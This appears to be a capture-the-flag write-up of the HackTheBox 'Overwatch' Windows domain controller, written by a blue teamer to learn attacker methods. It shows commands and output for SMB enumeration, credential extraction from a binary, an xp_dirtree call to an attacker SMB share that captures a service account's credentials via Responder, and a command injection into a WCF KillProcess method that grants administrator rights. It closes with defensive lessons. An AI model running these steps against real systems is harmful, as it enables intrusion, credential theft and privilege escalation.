

import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Introduction

Hello everyone! As a member of the Blue Team, I'm really impressed with the attack methods that the Red Team often uses. Although my attack skills are still quite basic and I'm still practicing, I believe that understanding how the Red Team thinks and exploits vulnerabilities will help me defend better, see the system more comprehensively, and react faster to real-life situations.

Today I had some free time, so I took the opportunity to continue "grinding" and complete the Overwatch machine on HackTheBox. I learned a few more cool tricks and gained a new perspective on how a small vulnerability can lead to a large-scale exploitation chain.

## Attack Sequence

The assessment began with a **network scan** using **Nmap** to identify open ports on the target machine. The scan results show multiple open ports:

```cmd
$ sudo nmap -p- -T4 10.129.244.81
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 04:50 EST
Nmap scan report for 10.129.244.81
Host is up (0.079s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
6520/tcp  open  unknown
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
52172/tcp open  unknown
52185/tcp open  unknown
53365/tcp open  unknown
60069/tcp open  unknown
60070/tcp open  unknown
62371/tcp open  unknown
```

Looking at this list of ports, it's quite clear that it's a **Windows Domain Controller** machine. We can see some familiar ports such as **53 (DNS)**, **88 (Kerberos)**, **135 (Microsoft RPC)**, **389 (LDAP)** and **445 (SMB)**.

### SMB Enumeration

**Port 445** is usually the first place we analyze, we will **enumerate SMB** to check if anonymous or guest access is accepted.

```cmd
$ smbclient -L //10.129.244.81 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
software$       Disk
SYSVOL          Disk      Logon server share
```

The output shows that there is a **custom folder share**:

```cmd
$ smbclient //10.129.244.81/software$ -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DH        0  Fri May 16 21:27:07 2025
  ..                                DHS        0  Thu Jan  1 01:46:47 2026
  Monitoring                         DH        0  Fri May 16 21:32:43 2025

                7147007 blocks of size 4096. 1834208 blocks available
smb: \> cd Monitoring\
smb: \Monitoring\> ls
  .                                  DH        0  Fri May 16 21:32:43 2025
  ..                                 DH        0  Fri May 16 21:27:07 2025
  EntityFramework.dll                AH  4991352  Thu Apr 16 16:38:42 2020
  EntityFramework.SqlServer.dll      AH   591752  Thu Apr 16 16:38:56 2020
  EntityFramework.SqlServer.xml      AH   163193  Thu Apr 16 16:38:56 2020
  EntityFramework.xml                AH  3738289  Thu Apr 16 16:38:40 2020
  Microsoft.Management.Infrastructure.dll     AH    36864  Mon Jul 17 10:46:10 2017
  overwatch.exe                      AH     9728  Fri May 16 21:19:24 2025
  overwatch.exe.config               AH     2163  Fri May 16 21:02:30 2025
  overwatch.pdb                      AH    30208  Fri May 16 21:19:24 2025
  System.Data.SQLite.dll             AH   450232  Sun Sep 29 16:41:18 2024
  System.Data.SQLite.EF6.dll         AH   206520  Sun Sep 29 16:40:06 2024
  System.Data.SQLite.Linq.dll        AH   206520  Sun Sep 29 16:40:42 2024
  System.Data.SQLite.xml             AH  1245480  Sat Sep 28 14:48:00 2024
  System.Management.Automation.dll     AH   360448  Mon Jul 17 10:46:10 2017
  System.Management.Automation.xml     AH  7145771  Mon Jul 17 10:46:10 2017
  x64                                DH        0  Fri May 16 21:32:33 2025
  x86                                DH        0  Fri May 16 21:32:33 2025

                7147007 blocks of size 4096. 1834192 blocks available
```

In the **Monitoring** folder, we find an executable file, a configuration file, and a debug file. Let's download all of these files. Using the `strings` command with the `-el` parameter, we can find the **credential** in the executable file.

```cmd
$ strings -el overwatch.exe
...
Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;
...
```

We have found the credential: `sqlsvc:TI0LKcfHzZw1Vv`

### Lateral Movement

When scanning ports with **nmap**, we see that **WinRM port (5985)** is open. We will use the **evil-winrm** tool to try to connect.

```cmd
$ evil-winrm -i $victim_ip -u "sqlsvc" -p "TI0LKcfHzZw1Vv"

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

An error occurred, this user may not be in the **Remote Management Users** group. We need to change our strategy. We know this is an **account service used for SQL service**, so we'll use an [Impacket script](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) to log in.

For the port parameter, we will test with the open ports marked as unknown in the nmap output. And it worked successfully on port `6520`.

```shell
$ mssqlclient.py -port 6520 'overwatch/sqlsvc:TI0LKcfHzZw1Vv@10.129.244.81' -windows-auth
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (OVERWATCH\sqlsvc  guest@master)>
```

We have successfully logged into SQL Server. We will execute the following commands to check our permissions.

```shell
SQL (OVERWATCH\sqlsvc  guest@master)> SELECT SYSTEM_USER;

----------------
OVERWATCH\sqlsvc
SQL (OVERWATCH\sqlsvc  guest@master)> SELECT USER_NAME();

-----
guest
SQL (OVERWATCH\sqlsvc  guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin');

-
0
SQL (OVERWATCH\sqlsvc  guest@master)>  SELECT * FROM fn_my_permissions(NULL, 'SERVER');
entity_name   subentity_name   permission_name
-----------   --------------   -----------------
server                         CONNECT SQL
server                         VIEW ANY DATABASE
SQL (OVERWATCH\sqlsvc  guest@master)>

```

The output of the commands shows that we are not **sysadmin**, and only have permission to **connect to SQL Server** and **view the list of all databases** on the server. But in the Overwatch database, we are mapped as the **dbo** user (database owner) and we have **full control** over that database.

Alternatively, we can use the following command to list the **Linked Servers**.

```shell
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> EXEC sp_linkedservers;
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE
------------------   ----------------   -----------   ------------------
S200401\SQLEXPRESS   SQLNCLI            SQL Server    S200401\SQLEXPRESS
SQL07                SQLNCLI            SQL Server    SQL07
```

> Linked Server is a configuration that allows one SQL Server to connect to
> another SQL Server (or other database) and run queries remotely.

Based on the output, which is the SQL from this DC, it is possible to query or call a procedure to **SQL07**. Now that we know we have a linked server named **SQL07**, we can leverage this to **capture the Net-NTLM hash of SQL07's service account**. To put it simply, imagine this:

```
SQLEXPRESS (me)
 │
 │  EXEC (...) AT SQL07
 ▼
SQL07 (service account)
 │
 │  xp_dirtree \\ATTACKER\share
 ▼
Windows SMB authentication
 │
 ▼
Responder
 │
 ▼
Credential service account
```

You can read more about this mining technique [here](https://www.bordergate.co.uk/attacking-mssql/). First, we will set up **Responder** to monitor incoming connections.

```cmd
$ sudo responder -I tun0
```

Next, instruct **SQL Server SQL07** to execute `xp_dirtree` to access a network directory, and that access action is performed by Windows on the **SQL07** machine under the account running its SQL service.

```cmd
SQL (OVERWATCH\sqlsvc  guest@master)> USE overwatch;
ENVCHANGE(DATABASE): Old Value: master, New Value: overwatch
INFO(S200401\SQLEXPRESS): Line 1: Changed database context to 'overwatch'.
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> EXECUTE ('master..xp_dirtree "\\10.10.16.25\share"') AT SQL07;
```

Then, in the **Responder**, you will receive the following credentials:

```cmd
[MSSQL] Cleartext Client   : 10.129.16.137
[MSSQL] Cleartext Hostname : SQL07 ()
[MSSQL] Cleartext Username : sqlmgmt
[MSSQL] Cleartext Password : bIhBbzMMnB82yx
```

> New credential : `sqlmgmt:bIhBbzMMnB82yx`

### Initial Access

With the credentials I received, I tried logging back into MS SQL to see if my privileges were higher, but I didn't get anything back. I tried logging in using **WinRM (Port 5985)** and I received a shell.

```powershell
$ evil-winrm -i 10.129.244.81 -u sqlmgmt -p "bIhBbzMMnB82yx"

*Evil-WinRM* PS C:\Users\sqlmgmt\Desktop> type user.txt
22e2333c5664cf23fa2663e2fce*****
```

> User Flag: `22e2333c5664cf23fa2663e2fce*****`

### Privilege Escalation

After obtaining the shell, we will enumerate the file system to find **valuable files**.

```powershell
*Evil-WinRM* PS C:\Users\sqlmgmt\Desktop> ls -Force C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--h--         5/16/2025   6:27 PM                Software
```

I discovered the `C:\Software` folder. Upon exploring it, I found a binary file named `overwatch.exe` and its configuration file, `overwatch.exe.config`.

```powershell
*Evil-WinRM* PS C:\Software\Monitoring> Get-Content -Path "overwatch.exe.config"
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <!-- For more information on Entity Framework configuration, visit http://go.microsoft.com/fwlink/?LinkID=237468 -->
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" requirePermission="false" />
  </configSections>
  <system.serviceModel>
    <services>
      <service name="MonitoringService">
        <host>
          <baseAddresses>
            <add baseAddress="http://overwatch.htb:8000/MonitorService" />
          </baseAddresses>
        </host>
        <endpoint address="" binding="basicHttpBinding" contract="IMonitoringService" />
        <endpoint address="mex" binding="mexHttpBinding" contract="IMetadataExchange" />
      </service>
    </services>
    <behaviors>
      <serviceBehaviors>
        <behavior>
          <serviceMetadata httpGetEnabled="True" />
          <serviceDebug includeExceptionDetailInFaults="True" />
        </behavior>
      </serviceBehaviors>
    </behaviors>
  </system.serviceModel>
  <entityFramework>
    <providers>
      <provider invariantName="System.Data.SqlClient" type="System.Data.Entity.SqlServer.SqlProviderServices, EntityFramework.SqlServer" />
      <provider invariantName="System.Data.SQLite.EF6" type="System.Data.SQLite.EF6.SQLiteProviderServices, System.Data.SQLite.EF6" />
    </providers>
  </entityFramework>
  <system.data>
    <DbProviderFactories>
      <remove invariant="System.Data.SQLite.EF6" />
      <add name="SQLite Data Provider (Entity Framework 6)" invariant="System.Data.SQLite.EF6" description=".NET Framework Data Provider for SQLite (Entity Framework 6)" type="System.Data.SQLite.EF6.SQLiteProviderFactory, System.Data.SQLite.EF6" />
    <remove invariant="System.Data.SQLite" /><add name="SQLite Data Provider" invariant="System.Data.SQLite" description=".NET Framework Data Provider for SQLite" type="System.Data.SQLite.SQLiteFactory, System.Data.SQLite" /></DbProviderFactories>
  </system.data>
</configuration>
```

This is the configuration file for a **WCF Monitoring Service**, running HTTP on `overwatch.htb:8000`, with SOAP endpoints and metadata, debug enabled, and using Entity Framework with SQL Server/SQLite as the backend.

> WCF is a .NET framework for creating network services, allowing applications to communicate with each other over HTTP/TCP using predefined interfaces.

```shell
*Evil-WinRM* PS C:\Software\Monitoring> Invoke-WebRequest -Uri http://localhost:8000/MonitorService -UseBasicParsing


StatusCode        : 200
StatusDescription : OK
Content           : <HTML lang="en"><HEAD><link rel="alternate" type="text/xml" href="http://overwatch.htb:8000/MonitorService?disco"/><STYLE type="text/css">#content{ FONT-SIZE: 0.7em; PADDING-BOTTOM: 2em; MARGIN-LEFT: ...
RawContent        : HTTP/1.1 200 OK
                    Content-Length: 3077
                    Content-Type: text/html; charset=UTF-8
                    Date: Tue, 10 Feb 2026 08:01:16 GMT
                    Server: Microsoft-HTTPAPI/2.0

                    <HTML lang="en"><HEAD><link rel="alternate" type="t...
Forms             :
Headers           : {[Content-Length, 3077], [Content-Type, text/html; charset=UTF-8], [Date, Tue, 10 Feb 2026 08:01:16 GMT], [Server, Microsoft-HTTPAPI/2.0]}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<A HREF="http://overwatch.htb:8000/MonitorService?wsdl">http://overwatch.htb:8000/MonitorService?wsdl</A>; tagName=A; HREF=http://overwatch.htb:8000/MonitorService?wsdl}, @{outerHTML=<A
                    HREF="http://overwatch.htb:8000/MonitorService?singleWsdl">http://overwatch.htb:8000/MonitorService?singleWsdl</A>; tagName=A; HREF=http://overwatch.htb:8000/MonitorService?singleWsdl}}
ParsedHtml        :
RawContentLength  : 3077
```

We observe a `?wsdl` link, which refers to a **WSDL (Web Services Description Language)** file - an XML document that describes the available web service methods, their parameters, and data types

```powershell
(Invoke-WebRequest -Uri http://localhost:8000/MonitorService?wsdl -UseBasicParsing).Content
```

We will receive the following XML file:

```xml
<?xml version="1.0" encoding="utf-8"?>
<wsdl:definitions name="MonitoringService" targetNamespace="http://tempuri.org/"
	xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
	xmlns:wsx="http://schemas.xmlsoap.org/ws/2004/09/mex"
	xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd"
	xmlns:wsa10="http://www.w3.org/2005/08/addressing"
	xmlns:wsp="http://schemas.xmlsoap.org/ws/2004/09/policy"
	xmlns:wsap="http://schemas.xmlsoap.org/ws/2004/08/addressing/policy"
	xmlns:msc="http://schemas.microsoft.com/ws/2005/12/wsdl/contract"
	xmlns:soap12="http://schemas.xmlsoap.org/wsdl/soap12/"
	xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing"
	xmlns:wsam="http://www.w3.org/2007/05/addressing/metadata"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:tns="http://tempuri.org/"
	xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
	xmlns:wsaw="http://www.w3.org/2006/05/addressing/wsdl"
	xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">
	<wsdl:types>
		<xsd:schema targetNamespace="http://tempuri.org/Imports">
			<xsd:import schemaLocation="http://overwatch.htb:8000/MonitorService?xsd=xsd0" namespace="http://tempuri.org/"/>
			<xsd:import schemaLocation="http://overwatch.htb:8000/MonitorService?xsd=xsd1" namespace="http://schemas.microsoft.com/2003/10/Serialization/"/>
		</xsd:schema>
	</wsdl:types>
	<wsdl:message name="IMonitoringService_StartMonitoring_InputMessage">
		<wsdl:part name="parameters" element="tns:StartMonitoring"/>
	</wsdl:message>
	<wsdl:message name="IMonitoringService_StartMonitoring_OutputMessage">
		<wsdl:part name="parameters" element="tns:StartMonitoringResponse"/>
	</wsdl:message>
	<wsdl:message name="IMonitoringService_StopMonitoring_InputMessage">
		<wsdl:part name="parameters" element="tns:StopMonitoring"/>
	</wsdl:message>
	<wsdl:message name="IMonitoringService_StopMonitoring_OutputMessage">
		<wsdl:part name="parameters" element="tns:StopMonitoringResponse"/>
	</wsdl:message>
	<wsdl:message name="IMonitoringService_KillProcess_InputMessage">
		<wsdl:part name="parameters" element="tns:KillProcess"/>
	</wsdl:message>
	<wsdl:message name="IMonitoringService_KillProcess_OutputMessage">
		<wsdl:part name="parameters" element="tns:KillProcessResponse"/>
	</wsdl:message>
	<wsdl:portType name="IMonitoringService">
		<wsdl:operation name="StartMonitoring">
			<wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/StartMonitoring" message="tns:IMonitoringService_StartMonitoring_InputMessage"/>
			<wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/StartMonitoringResponse" message="tns:IMonitoringService_StartMonitoring_OutputMessage"/>
		</wsdl:operation>
		<wsdl:operation name="StopMonitoring">
			<wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/StopMonitoring" message="tns:IMonitoringService_StopMonitoring_InputMessage"/>
			<wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/StopMonitoringResponse" message="tns:IMonitoringService_StopMonitoring_OutputMessage"/>
		</wsdl:operation>
		<wsdl:operation name="KillProcess">
			<wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/KillProcess" message="tns:IMonitoringService_KillProcess_InputMessage"/>
			<wsdl:output wsaw:Action="http://tempuri.org/IMonitoringService/KillProcessResponse" message="tns:IMonitoringService_KillProcess_OutputMessage"/>
		</wsdl:operation>
	</wsdl:portType>
	<wsdl:binding name="BasicHttpBinding_IMonitoringService" type="tns:IMonitoringService">
		<soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
		<wsdl:operation name="StartMonitoring">
			<soap:operation soapAction="http://tempuri.org/IMonitoringService/StartMonitoring" style="document"/>
			<wsdl:input>
				<soap:body use="literal"/>
			</wsdl:input>
			<wsdl:output>
				<soap:body use="literal"/>
			</wsdl:output>
		</wsdl:operation>
		<wsdl:operation name="StopMonitoring">
			<soap:operation soapAction="http://tempuri.org/IMonitoringService/StopMonitoring" style="document"/>
			<wsdl:input>
				<soap:body use="literal"/>
			</wsdl:input>
			<wsdl:output>
				<soap:body use="literal"/>
			</wsdl:output>
		</wsdl:operation>
		<wsdl:operation name="KillProcess">
			<soap:operation soapAction="http://tempuri.org/IMonitoringService/KillProcess" style="document"/>
			<wsdl:input>
				<soap:body use="literal"/>
			</wsdl:input>
			<wsdl:output>
				<soap:body use="literal"/>
			</wsdl:output>
		</wsdl:operation>
	</wsdl:binding>
	<wsdl:service name="MonitoringService">
		<wsdl:port name="BasicHttpBinding_IMonitoringService" binding="tns:BasicHttpBinding_IMonitoringService">
			<soap:address location="http://overwatch.htb:8000/MonitorService"/>
		</wsdl:port>
	</wsdl:service>
</wsdl:definitions>
```

We see that this service has 3 methods: `StartMonitoring`, `StopMonitoring`, and `KillProcess`. To learn more about these methods, we will create a **SOAP client** using the following command:

```powershell
$service = New-WebServiceProxy -Uri "http://localhost:8000/MonitorService?wsdl" -Namespace "Monitor" -UseDefaultCredential$service = New-WebServiceProxy -Uri "http://localhost:8000/MonitorService?wsdl" -Namespace "Monitor" -UseDefaultCredential
```

Next, we will list the **service's methods** using the following command:

```shell
*Evil-WinRM* PS C:\Software\Monitoring> $service | Get-Member -MemberType Method

Name                      MemberType Definition
----                      ---------- ----------
Abort                     Method     void Abort()
BeginKillProcess          Method     System.IAsyncResult BeginKillProcess(string processName, System.AsyncCallback callback, System.Object asyncState)
BeginStartMonitoring      Method     System.IAsyncResult BeginStartMonitoring(System.AsyncCallback callback, System.Object asyncState)
BeginStopMonitoring       Method     System.IAsyncResult BeginStopMonitoring(System.AsyncCallback callback, System.Object asyncState)
CancelAsync               Method     void CancelAsync(System.Object userState)
CreateObjRef              Method     System.Runtime.Remoting.ObjRef CreateObjRef(type requestedType)
Discover                  Method     void Discover()
Dispose                   Method     void Dispose(), void IDisposable.Dispose()
EndKillProcess            Method     string EndKillProcess(System.IAsyncResult asyncResult)
EndStartMonitoring        Method     string EndStartMonitoring(System.IAsyncResult asyncResult)
EndStopMonitoring         Method     string EndStopMonitoring(System.IAsyncResult asyncResult)
Equals                    Method     bool Equals(System.Object obj)
GetHashCode               Method     int GetHashCode()
GetLifetimeService        Method     System.Object GetLifetimeService()
GetType                   Method     type GetType()
InitializeLifetimeService Method     System.Object InitializeLifetimeService()
KillProcess               Method     string KillProcess(string processName)
KillProcessAsync          Method     void KillProcessAsync(string processName), void KillProcessAsync(string processName, System.Object userState)
StartMonitoring           Method     string StartMonitoring()
StartMonitoringAsync      Method     void StartMonitoringAsync(), void StartMonitoringAsync(System.Object userState)
StopMonitoring            Method     string StopMonitoring()
StopMonitoringAsync       Method     void StopMonitoringAsync(), void StopMonitoringAsync(System.Object userState)
ToString                  Method     string ToString()
```

We can see that the `KillProcess` function doesn't receive the `PID` but instead receives the process name as a string: `processName`. It's highly likely that the parameters passed to this function weren't properly validated, leading to a **Command Injection vulnerability**. I'll try the following command:

```shell
*Evil-WinRM* PS C:\Software\Monitoring> $service.KillProcess("notepad; net localgroup Administrators sqlmgmt /add")

*Evil-WinRM* PS C:\Software\Monitoring> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
Members
-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
sqlmgmt
```

Boom, we've joined the **Administrators** group and can now read the root flag.

```shell
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> type C:\Users\Administrator\Desktop\root.txt
ad4f3b5bbb2f6130c5ee5a890e3*****
```

## Conclusion

The Overwatch machine showcased a classic **attack chain** that demonstrates how multiple seemingly small vulnerabilities can be chained together to achieve complete system compromise. Let me summarize the key takeaways:

### Key Vulnerabilities Exploited

1. **Anonymous SMB Access**: The ability to enumerate and access the `software$` share without authentication allowed us to discover the `overwatch.exe` binary and extract hardcoded credentials.

2. **Credential Extraction**: Hardcoded database credentials in executable files and configuration files represent a significant security risk. Using tools like `strings` to extract sensitive information from binaries is a common technique.

3. **SQL Server Linked Servers**: The presence of linked servers between SQL instances enabled us to perform **credential relay attacks** and capture the Net-NTLM hash of the SQL07 service account through `xp_dirtree`.

4. **Command Injection in WCF Service**: The most critical vulnerability was the lack of input validation in the `KillProcess` method of the WCF Monitoring Service. This allowed arbitrary command execution, which we exploited to escalate our privileges to the Administrators group.

### Defensive Lessons

- **Never hardcode credentials** in application binaries or configuration files; use secure credential management systems like Azure Key Vault.
- **Restrict SMB share access** and avoid exposing sensitive binaries in network shares.
- **Validate and sanitize all user inputs**, especially in service methods that interact with system processes.
- **Implement principle of least privilege** and avoid running services with excessive permissions.
- **Monitor and audit linked server connections** in SQL Server environments.

This challenge reinforced the importance of understanding the **complete attack surface** and how attackers can leverage multiple weaknesses to achieve their objectives. Defense requires a comprehensive approach addressing configuration, access controls, and secure coding practices.

<div class="mx-auto"></div>
